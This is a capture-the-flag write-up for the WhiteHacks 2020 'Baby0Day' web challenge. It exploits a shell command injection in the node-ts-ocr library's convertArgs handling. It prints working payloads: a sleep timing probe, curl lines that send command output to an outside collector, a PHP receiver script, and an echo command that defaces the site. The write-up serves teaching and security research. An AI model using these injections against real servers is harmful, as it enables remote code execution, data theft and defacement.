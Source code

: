 # PDF-C (3/3): Baby0Day [waituck]

**Web // 500 Points // Demo**

## Description

Drats! Hackers managed to deface my website and I have no idea how they  managed to do it. They say the devil is in the details, and you may have to look really deep to find the bug.

If you manage to exploit the vulnerability, run the `/getinfo` binary which will contain instructions on the next steps in reporting  the vulnerability. If you are successful in the demo session, we'll give you the flag!

Visit the challenge at http://chals.whitehacks.ctf.sg:13003/; source code: [website.zip](https://api.whitehacks.ctf.sg/file?id=ckd1rt27w04ib0733l8cnhrsy&name=website.zip)

## Solution

This is a zero-day exploit, meaning that there is a problem in one of the libraries used.

To begin, let's analyze `server.js`. Firstly, spin up a local instance by running `npm i` and installing the dependencies (the Docker refused to work for me). `/admin` and `/real_admin` were already exploited in parts 1 and 2, meaning that the exploit must be in `/pdf_ocr`. Looking inside, we see that `express`, `multer`, and `node-ts-ocr` are in use. As the first two are used very widely, I doubt that I'd be able to exploit them. I started digging into [`node-ts-ocr`](https://www.npmjs.com/package/node-ts-ocr) and its [GitHub](https://github.com/nicolaspearson/node.ts.ocr) page.

The function being used here is `ocr.extractText`, and the source code for this is on [line 63](https://github.com/nicolaspearson/node.ts.ocr/blob/master/src/index.ts#L63). There are a lot of `spawn` calls, so I assumed that the vulnerability was in these calls. I was quite fixated with line 86 for the better part of an hour:

```javascript
const bin = childProcess.spawn('pdftotext', args);
```

because I thought that `args` would be injectable. Turns out Node.js isn't as bad a language as people make it out to be (it's escaped). Let's skip to 12PM when everyone was having lunch.

Now to find another entry point. The vulnerability was introduced when the author decided not to use `child_process.spawn` in the later parts. Not sure why this was done, but it allows us to solve this challenge. In the `invokePdfToTiff` function, this was run:

```javascript
if (options && options.convertArgs) {
	for (const [key, value] of Object.entries(options.convertArgs)) {
		args.push(`-${key}`);
		args.push(`${value}`);
	}
}
const outputPath = path.join(outDir, 'tiff_output.tiff');
fs.writeFileSync(outputPath, undefined);
args.push(outputPath);
const cmd = `convert ${args.join(' ')}`;
```

This is an *unsafe* function, because it joins the args by a space, instead of using an escaped function like above, meaning that we can mess things up. For example, if `args` were something like `['fileName', 'fileName2', '; we are evil now']`, `cmd` would become:

```
convert fileName fileName2; we are evil now
```

which allows us to run _any shell command_ in the `we are evil now` part because of the semicolon (remember how the shell works).

(insert an hour figuring out how to pass things into `options` here)

To run the `invokePdfToTiff` function, we must create a specialized PDF (i.e. one without words). This is because the `pdfToTextResult` variable would be populated there were text in the PDF, causing an early `return` before invoking the vulnerable function. To do this, I converted the WhiteHacks logo to a PDF using an online converter (i was in a rush for time dont @ me).

In order to pass things into `options` to perform the injection, we use the fact that the server uses the middleware `bodyParser.urlencoded({ extended: true })`. This means that we can do cool stuff like this:

```
a[0]=123&a[1]=234&b=345
```

would become:

```json
{
    "a": [123, 234],
    "b": 345
}
```

after being parsed. Looking at the code snippet from the function, we can see that we need to pass `convertArgs` as a key-value pair, which would correspond to:

```
convert sourceFileName -key val destFileName
```

_Note: for some reason, the default `npm i` install of the code is broken. On line 131, change `fs.writeFileSync(outputPath, undefined);` to `fs.writeFileSync(outputPath, fs.readFileSync(filePath));` locally._

Now, we want to put in the following input:

```
convert sourceFileName -uselessThingBecauseWeDontNeedThis randomFileName; DO EVIL STUFF HERE # destFileNameCommentedOut
```

To send the payload, a text input can be created in the website using DevTools (this is how people without Burp Suite roll). Create this structure:

![Create an input field with the name attribute set to convertArgs[adjoin] in the form](https://raw.githubusercontent.com/IRS-Cybersec/ctfdump/master/Whitehacks 2020/web/Baby0Day/devtools.png)



The name of the new input is important as well because it corresponds to the key. I don't know what `adjoin` does, but it does the trick so I won't complain. It was found in the manpages.

The value of the field should then be `randomFileName; DO EVIL STUFF HERE #`. This was past 1PM and I haven't had lunch. The file name can be random since I don't need the rest of the script to run anyways (crash and burn for all i care). This was my initial payload:

```
0utput; sleep 10 #
```

This was good because it allowed me to verify that the script was working without getting an output (the output will stay `Something went wrong!` for the entirety of this writeup). If the script managed to run, the website would freeze for 10 seconds before responding (see: SQL Time-based Blind). Make sure you run this twice because it is technically possible that the sleep was initiated by someone else. (This also means that you could possible DoS this: don't `sleep 1000` please).

We can also see what command was being run by adding a `console.log(cmd);` right after the `cmd` constant was initialized on our local instance. The command would be:

```
convert uploads/70af7347-a82a-4c6a-86a5-cda07c18d4f5-1596360876743.pdf -adjoin 123123; sleep 10 # /tmp/tmp202072-909-we6lgf.qt29/tiff_output.tiff
```

By now it was almost 2PM. Lunch was merely a distant dream.

Now, we need to get the output. Until now, all we had was `Something went wrong!`, and that obviously wouldn't help us very much. We too from SQLi just now, so let's take from XSS now:

```
0utput; curl URL --data-urlencode "content=$(ls)" #
```

where URL points to a backend running something similar to this:

```php
<?php
if (!empty($_POST['content'])) file_put_contents('cookiedata', $_POST['a'], FILE_APPEND);
?>
```

_(yes, PHP. I'm sorry.) Make sure that the file `cookiedata` is writable by your script (`/var/www/html` might be owned by `root`). Usually, `sudo touch cookiedata; sudo chown www-data:www-data cookiedata` would do the trick._

Alternatively, use a bin service like [RequestBin](http://requestbin.net/). You should get an output like this on your server:

```
flag1.txt
flag2.txt
node_modules
package-lock.json
package.json
server.js
static
uploads
```

The flags here are kinda useless (you _could_ `cat` them but why). The description asks us to "run the `/getinfo` binary", so let's do that:

```
PAYLOAD
0utput; curl URL --data-urlencode "content=$(/getinfo)" #

OUTPUT
Congratulations on pwning the demo challenge! To get the flag, you will need to demo the exploit on the main stage.
To prove that you have successfully pwned the system without leaking the exploit, we will spin up a new instance of the exact same challenge for you.

Prepare an exploit that defaces the website (hint: index.html will be writable in the new instance).
You can deface the website with any content, but keep things safe for work, and do not post offensive material or you would risk disqualification!

Contact <redacted> on discord once you are done!

Once again, congrats on finding the 0-day!
```

After doing so, the challenge was to deface the website. This was relatively easy:

```
0utput; echo "<img src='https://i.pximg.net/img-original/img/2020/02/05/22/37/11/79304069_p0.jpg'>" > static/index.html #
```

(figure out that the page is in `static/index.html` by running more commands. don't be dumb and forget that `cat` and `echo` are not the same thing. hard to believe that i used arch and have a server)

This isn't possible on the original instance because of limitations (the file was `-r-xr-xr-x` and unwritable).

Now, ask the organizers for the flag and realize that it's 3PM and you still haven't had lunch.

## Flag

```
WH2020{d0nT_y0u_w0rry_mY_chilD_pr0c3s5}
```

P.S. kudos to the author for finding a zero day. They had to find the zero day then write something _using_ the zero day. Pretty mad stuff.

Thanks to my teammates for solving less-stupidly-convoluted challs while I was stuck with this for over four hours. 500 points.

Also it's 7 and I still haven't had lunch. No kidding. One more thing: we need more web challs in other ctfs plz @cyberthon @cddc

![My Downloads Folder, 19:00 hours](https://raw.githubusercontent.com/IRS-Cybersec/ctfdump/master/Whitehacks 2020/web/Baby0Day/downloads-folder.png)



_Exhibit A: the Downloads folder of a CTF player after the CTF._